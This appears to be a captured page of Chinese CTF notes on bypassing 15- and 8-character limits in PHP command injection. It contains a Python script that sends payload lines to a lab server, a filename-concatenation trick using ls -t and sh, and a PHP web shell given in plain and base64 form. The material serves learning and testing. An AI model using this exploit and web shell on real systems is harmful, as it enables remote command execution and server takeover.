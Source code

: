     ```python

    #!/usr/bin/python
    # -*- coding: UTF-8 -*-
    import requests
    import threading
    lock = threading.Lock()
    def exp():
        lock.acquire(True) #锁定
        url = "http://192.168.12.107/4/index.php?cmd={0}"
        print("[+]start attack!!!")
        with open("payload.txt","r") as f:
            for i in f:
                print("[*]" + url.format(i.strip()))
                requests.get(url.format(i.strip()))
                #检查是 否攻击成功
        test = requests.get("http://192.168.12.107/4/sandbox/2ad26c4b0f3cdead3c4c1955ad805b8d/1.php")
        if test.status_code == requests.codes.ok:
            print("[*]Attack success!!!")
        lock.release() #释放

    if __name__ == '__main__':
        t = threading.Thread(target=exp)
        t.start()


    ```


* 15字符限制

    ```php



    ```

* 8字符限制

    ```php

    >a "在linux中会直接创建这个文件，但没有内容"
    ls -t "将目录中的文件以时间顺序排列，最后创建的排在第一位"
    sh a "将文件a中的所有内容以命令执行"
    who/
    am/
    i "Linux中的命令拼接符/会将命令按照whoami执行"

    ```

    要构造的内容

    ```php

    echo <?php echo shell_exec($_GET[1]); >1.php "便于查看回显"
    echo PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWzFdKTs=|base64 -d>1.php "使用base64的方式避免$等特殊字符输入失败"

    ```
